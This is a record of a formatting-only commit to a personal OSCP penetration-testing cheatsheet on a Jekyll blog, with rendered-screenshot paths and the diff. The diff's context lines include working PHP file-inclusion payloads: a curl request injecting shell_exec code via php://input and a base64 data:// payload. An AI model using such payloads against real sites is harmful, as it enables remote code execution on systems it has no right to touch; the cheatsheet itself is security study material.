

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-09-18-OSCP-personal-cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 804 px. Shown: the part 118-454 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-09-18-OSCP-personal-cheatsheet.md
+++ b/_posts/2020-09-18-OSCP-personal-cheatsheet.md
@@ -56,7 +56,7 @@ description: "OSCP personal cheatsheet"
       - [Wrapper expect://](#wrapper-expect)
       - [Wrapper data://](#wrapper-data)
       - [Wrapper input://](#wrapper-input)
-  * [Useful LFI list](#useful-lfi-list)
+    + [Useful LFI list](#useful-lfi-list)
     + [Tools](#tools)
   * [Command injection](#command-injection)
   * [Deserialization](#deserialization)
@@ -632,7 +632,7 @@ http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJ
 curl -k -v "http://example.com/index.php?page=php://input" --data "<?php echo shell_exec('id'); ?>"
 ```
 
-### Useful LFI list
+#### Useful LFI list
 
 ```
 # Linux
````
